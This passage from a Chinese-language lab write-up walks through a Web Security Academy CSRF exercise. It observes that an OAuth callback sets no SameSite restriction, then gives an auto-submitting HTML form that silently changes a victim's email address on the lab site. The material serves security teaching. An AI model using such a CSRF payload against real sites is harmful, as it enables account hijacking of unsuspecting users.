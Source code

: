 [![](assets/1705890866-60f7765402c5aa9d03d89699be4fe027.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118111521-d0460de0-b5af-1.png)  
这里对 OAuth 的回调响应中也没有明确指定任何 SameSite 限制  
[![](assets/1705890866-5b52e44fbe519ce87b507be38b21c605.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118111537-d9fa4432-b5af-1.png)  
在漏洞利用服务器中使用以下模板创建用于更改受害者电子邮件地址的 CSRF 攻击

```plain
<script>
    history.pushState('', '', '/')
</script>
<form action="https://0ac500600323bab982e6fbd7003000a0.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="foo@bar.com" />
    <input type="submit" value="Submit request" />
</form>
<script>
    document.forms[0].submit();
</script>
```

[![](assets/1705890866-2aefc81a131e7ece519abd11053a2467.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118111556-e54b43ea-b5af-1.png)  
退出账户时会有一次登录 social media 的操作：
